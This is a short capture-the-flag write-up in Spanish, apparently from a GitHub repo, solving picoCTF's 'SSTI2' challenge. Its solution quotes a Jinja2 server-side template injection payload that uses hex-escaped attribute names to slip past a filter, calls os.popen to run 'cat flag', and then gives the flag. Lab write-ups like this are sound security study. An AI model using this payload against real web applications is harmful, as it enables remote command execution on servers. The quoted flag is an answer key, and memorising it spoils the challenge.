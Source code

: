 #### Description

[](https://github.com/Tiitania/hacking-nodes-2025/blob/main/PicoCTF/Examen%20P.1/SSTI2.md#description)

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

#### Hints 

[](https://github.com/Tiitania/hacking-nodes-2025/blob/main/PicoCTF/Examen%20P.1/SSTI2.md#hints)

- Server Side Template Injection

## Solución

[](https://github.com/Tiitania/hacking-nodes-2025/blob/main/PicoCTF/Examen%20P.1/SSTI2.md#soluci%C3%B3n)

```
insertamos la sig inyeccion sacada de la pagina: 


{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}


y ya nos da la bandera

# picoCTF{sst1_f1lt3r_byp4ss_8b534b82}
```